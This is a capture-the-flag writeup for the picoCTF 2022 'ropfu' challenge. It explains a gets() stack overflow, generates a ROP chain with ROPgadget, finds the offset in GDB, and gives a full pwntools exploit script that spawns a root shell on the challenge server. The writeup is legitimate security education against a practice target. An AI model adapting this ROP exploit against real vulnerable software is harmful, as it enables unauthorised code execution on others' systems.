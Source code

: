 ```yaml
---
title: "PicoCTF 2022: ropfu"
date: 2022-06-14 19:20:05
categories:
- ctfs
- pico22
- pwn
tags:
- pwn
- rop-chain
description: "Utilize the ROPgadget tool to carry your classic return-oriented programming challenges! This is my writeup for the picoCTF 2022 pwn/binary challenge \"ropfu\"."
category_column: "pico22/pwn"
permalink: ctfs/pico22/pwn/ropfu/
thumbnail: https://enscribe.dev/asset/banner/banner-ropfu.png
hidden: true
---
```


{% fontawesome %}

{% challenge %}
authors: Sanjay C., Lt. "Syreal" Jones
solvers: enscribe
files: '[vuln](/asset/pico22/ropfu/vuln), [vuln.c](/asset/pico22/ropfu/vuln.c)'
description: |
    What's ROP?  
    Can you exploit the following [program](/asset/pico22/ropfu/vuln) to get the flag? Download [source](/asset/pico22/ropfu/vuln.c).  
    `nc saturn.picoctf.net [PORT]`
hint:
    - This is a classic ROP to get a shell
{% endchallenge %}

{% warning %}
Warning: This is an **instance-based** challenge. Port info will be redacted alongside the last eight characters of the flag, as they are dynamic.{% endwarning %}

{% ccb html:true caption:checksec.sh url:'github.com/slimm609/checksec.sh' url_text:'github link' terminal:true %}
<span style="color:#F99157">$ </span>checksec vuln
[<span style="color:#277FFF"><b>*</b></span>] '/home/kali/ctfs/pico22/ropfu/vuln'
    Arch:     i386-32-little
    RELRO:    <span style="color:#FEA44C">Partial RELRO</span>
    Stack:    <span style="color:#5EBDAB">Canary found</span>
    NX:       <span style="color:#D41919">NX disabled</span>
    PIE:      <span style="color:#D41919">No PIE (0x8048000)</span>
    RWX:      <span style="color:#D41919">Has RWX segments</span>
{% endccb %}

Hey, look: a classic "ROP" (return-oriented programming) challenge with the source code provided! Let's take a look:

{% ccb lang:py caption:vuln.c gutter1:1-10,,11-23 url:'enscribe.dev/asset/pico22/ropfu/vuln.c' url_text:'download source' wrapped:true %}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#define BUFSIZE 16

void vuln() {
    char buf[16];
    printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
    return gets(buf);

}

int main(int argc, char **argv) {
    setvbuf(stdout, NULL, _IONBF, 0);

    // Set the gid to the effective gid
    // this prevents /bin/sh from dropping the privileges
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    vuln();
}

{% endccb %}

The source only provides us with one vulnerable function: `gets()`. I've gone over this extremely unsafe function multiple times now, so feel free to read [MITRE's Common Weakness Enumeration page](https://cwe.mitre.org/data/definitions/242.html) if you don't know why. There is also no convenient function with `execve("/bin/sh", 0, 0)` in it (for obvious reasons), so we will have to insert our own shellcode.

Although we could totally solve this the old-fashioned way (as John Hammond did in [his writeup](https://www.youtube.com/watch?v=c7wNN8qgxAA)), we can use the power of automation with a tool called [ROPgadget](https://github.com/JonathanSalwan/ROPgadget)! Let's try using it here to **automatically** build the ROP-chain for us, which will eventually lead to a [syscall](https://en.wikipedia.org/wiki/System_call):

{% ccb html:true caption:'auto rop-chain generation' url:'github.com/JonathanSalwan/ROPgadget' url_text:'github link' scrollable:true terminal:true %}
<span class="meta prompt_">$ </span><span class="language-bash">ROPgadget --binary vuln --ropchain</span>

ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x8059102 mov dword ptr [edx], eax ; ret
    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x80583c9 pop edx ; pop ebx ; ret
    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x80b074a pop eax ; ret
    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x804fb90 xor eax, eax ; ret

- Step 2 -- Init syscall number gadgets

    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x804fb90 xor eax, eax ; ret
    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x808055e inc eax ; ret

- Step 3 -- Init syscall arguments gadgets

    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x8049022 pop ebx ; ret
    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x8049e39 pop ecx ; ret
    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x80583c9 pop edx ; pop ebx ; ret

- Step 4 -- Syscall gadget

    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x804a3d2 int 0x80

- Step 5 -- Build the ROP chain
<div class="skip-highlight">(omitted for brevity, will be in final script!)</div>
{% endccb %}

Oh, wow. It generated the entire script for us (unfortunately in Python2), with only a few missing bits and bobs! The only things we need to manually configure now are the offset and remote connection. Since the `checksec` mentioned that there was a canary enabled, it looks like we'll have to manually guess the offset with the `$eip`:

{% ccb html:true caption:'GDB - \"GDB enhanced features\"' url:'gef.readthedocs.io/en/master' url_text:documentation terminal:true %}
<span style="color:#47D4B9"><b>gef➤  </b></span>shell python3 -q
>>> print('A'*28 + 'B'*4)
AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
>>> 
<span style="color:#47D4B9"><b>gef➤  </b></span>r
Starting program: /home/kali/ctfs/pico22/ropfu/vuln 
How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!
AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
<span style="color:#367BF0">0x42424242</span> in <span style="color:#FEA44C">??</span> ()
[ Legend: <span style="color:#EC0101"><b>Modified register</b></span> | <span style="color:#D41919">Code</span> | <span style="color:#5EBDAB">Heap</span> | <span style="color:#9755B3">Stack</span> | <span style="color:#FEA44C">String</span> ]
<span style="color:#585858"><b>──────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">registers</span><span style="color:#585858"><b> ────</b></span>
<span style="color:#EC0101"><b>$eax   </b></span>: <span style="color:#9755B3">0xffffd540</span>  →  <span style="color:#FEA44C">"AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB"</span>
<span style="color:#EC0101"><b>$ebx   </b></span>: 0x41414141 ("<span style="color:#FEA44C">AAAA</span>"?)
<span style="color:#EC0101"><b>$ecx   </b></span>: <span style="color:#D41919">0x80e5300</span>  →  <span style="color:#585858"><b><_IO_2_1_stdin_+0> mov BYTE PTR [edx], ah</b></span>
<span style="color:#EC0101"><b>$edx   </b></span>: <span style="color:#9755B3">0xffffd560</span>  →  <span style="color:#D41919">0x80e5000</span>  →  <span style="color:#585858"><b><_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax]</b></span>
<span style="color:#EC0101"><b>$esp   </b></span>: <span style="color:#9755B3">0xffffd560</span>  →  <span style="color:#D41919">0x80e5000</span>  →  <span style="color:#585858"><b><_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax]</b></span>
<span style="color:#EC0101"><b>$ebp   </b></span>: 0x41414141 ("<span style="color:#FEA44C">AAAA</span>"?)
<span style="color:#EC0101"><b>$esi   </b></span>: <span style="color:#D41919">0x80e5000</span>  →  <span style="color:#585858"><b><_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al</b></span>
<span style="color:#EC0101"><b>$edi   </b></span>: <span style="color:#D41919">0x80e5000</span>  →  <span style="color:#585858"><b><_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al</b></span>
<span style="color:#EC0101"><b>$eip   </b></span>: 0x42424242 ("<span style="color:#FEA44C">BBBB</span>"?)
<span style="color:#367BF0">$cs</span>: 0x23 <span style="color:#367BF0">$ss</span>: 0x2b <span style="color:#367BF0">$ds</span>: 0x2b <span style="color:#367BF0">$es</span>: 0x2b <span style="color:#367BF0">$fs</span>: 0x00 <span style="color:#EC0101"><b>$gs</b></span>: 0x63 
<span style="color:#585858"><b>────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">code:x86:32</span><span style="color:#585858"><b> ────</b></span>
<span style="color:#EC0101"><b>[!]</b></span> Cannot disassemble from $PC
<span style="color:#EC0101"><b>[!]</b></span> Cannot access memory at address 0x42424242
<span style="color:#585858"><b>────────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">threads</span><span style="color:#585858"><b> ────</b></span>
[<span style="color:#47D4B9"><b>#0</b></span>] Id 1, Name: "vuln", <span style="color:#EC0101"><b>stopped</b></span> <span style="color:#367BF0">0x42424242</span> in <span style="color:#FF8A18"><b>??</b></span> (), reason: <span style="color:#962AC3"><b>SIGSEGV</b></span>
{% endccb %}

The offset is 28, as we've successfully loaded 4 hex `B`s into the `$eip`. Our last step is to set up the remote connection with [pwntools](https://docs.pwntools.com/en/stable/). Here is my final script:

{% ccb lang:py gutter1:1-48 caption:ropfu.py url:gist.github.com/jktrn/17d531a5738b4592f6d718fc0eb1b508 url_text:'github gist link' scrollable:true %}
#!/usr/bin/env python2
from pwn import *
from struct import pack

payload = 'A'*28

payload += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
payload += pack('<I', 0x080e5060) # @ .data
payload += pack('<I', 0x41414141) # padding
payload += pack('<I', 0x080b074a) # pop eax ; ret
payload += '/bin'
payload += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
payload += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
payload += pack('<I', 0x080e5064) # @ .data + 4
payload += pack('<I', 0x41414141) # padding
payload += pack('<I', 0x080b074a) # pop eax ; ret
payload += '//sh'
payload += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
payload += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
payload += pack('<I', 0x080e5068) # @ .data + 8
payload += pack('<I', 0x41414141) # padding
payload += pack('<I', 0x0804fb90) # xor eax, eax ; ret
payload += pack('<I', 0x08059102) # mov dword ptr [edx], eax ; ret
payload += pack('<I', 0x08049022) # pop ebx ; ret
payload += pack('<I', 0x080e5060) # @ .data
payload += pack('<I', 0x08049e39) # pop ecx ; ret
payload += pack('<I', 0x080e5068) # @ .data + 8
payload += pack('<I', 0x080583c9) # pop edx ; pop ebx ; ret
payload += pack('<I', 0x080e5068) # @ .data + 8
payload += pack('<I', 0x080e5060) # padding without overwrite ebx
payload += pack('<I', 0x0804fb90) # xor eax, eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0808055e) # inc eax ; ret
payload += pack('<I', 0x0804a3d2) # int 0x80

p = remote("saturn.picoctf.net", [PORT])
log.info(p.recvS())
p.sendline(payload)
p.interactive()
{% endccb %}

Let's run the script:

{% ccb html:true terminal:true %}
<span style="color:#F99157">$ </span> python2 exp.py
<pre>python2 exp.py
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to saturn.picoctf.net on port 58931: Done
[<span style="color:#277FFF"><b>*</b></span>] How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!
[<span style="color:#277FFF"><b>*</b></span>] Switching to interactive mode
<span style="color:#EC0101"><b>$</b></span> whoami
root
<span style="color:#EC0101"><b>$</b></span> ls
flag.txt
vuln
<span style="color:#EC0101"><b>$</b></span> cat flag.txt
picoCTF{5n47ch_7h3_5h311_<span style="color:#696969"><b>[REDACTED]</b></span>}<span style="color:#EC0101"><b>$</b></span> <span style="background-color:#FFFFFF"><span style="color:#1A1C23"> </span></span>
{% endccb %}

I know the way of ROP-fu, old man. Your shell has been snatched.

{% flagcounter %}